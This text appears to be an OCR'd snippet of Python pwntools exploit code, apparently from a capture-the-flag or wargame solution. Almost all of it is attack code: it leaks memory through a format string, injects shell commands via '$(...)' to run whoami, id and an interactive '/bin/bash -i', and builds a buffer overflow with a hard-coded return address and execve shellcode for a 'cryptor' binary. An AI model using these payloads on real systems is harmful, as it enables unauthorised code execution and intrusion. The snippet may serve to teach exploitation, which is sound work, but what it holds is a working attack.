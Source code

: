 ```python
r.clean()
r.sendline(shellcode)
r.recvuntil("SESSION: ")
# r.recvuntil("SESSION: ")
"""
['bfba64ac', '104', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', '78252e78', '2e78252e', '252e7825', 'ff0a2e78', 'b778bc20', 'bfba65fc', '0', 'b778b000', 'b778bac0', 'b778c898', 'b75df940', 'b76510b5', 'b778bac0', '59', '4e', '59', 'b778b8a0', 'b778b000', 'b778bac0', '\n']
"""

session_name = r.recvuntil('\n').split('.')
# print session_name

n_index = session_name.index('4e')
log.info("Report 'N' at offset {}".format(n_index))

r.sendline('3')
r.sendline('Y' * (4*(n_index-2) + 1) )

###
# After reporting
###

for command in ['whoami', 'id']:
    r.clean()
    r.sendline('1')
    r.sendline('$({} >&2)'.format(command))

    r.recvuntil("SENDING TO REPORT MODULE")
    output = r.recvuntil('[+]').split('\n')[2]
    log.success("{} - {}".format(command, output))

r.clean()
r.sendline('1')
r.sendline('$(/bin/bash -i >&2)')

log.success("Assume the form:")
log.success("anansi")
sleep(1)

offset = cyclic_find('zaab')
shellcode = 'A' * cyclic_find('zaab') + p32(0x804a080)
buffer = 116 - len(shellcode)

binsh_shellcode = asm(shellcraft.sh())

# Build argv1
argv1 = '"A" * {} + "{}" + "C" * {}'.format(offset, r'\x80\xa0\x04\x08', buffer)

# Build argv2
argv2 = ''.join('\\x{}'.format(enhex(binsh_shellcode)[x:x+2]) for x in xrange(0, len(enhex(binsh_shellcode)), 2))

# Final command
actual_shellcode = """./cryptor $(python -c 'print {}') $(python -c 'print "{}"')""".format(argv1, argv2)

```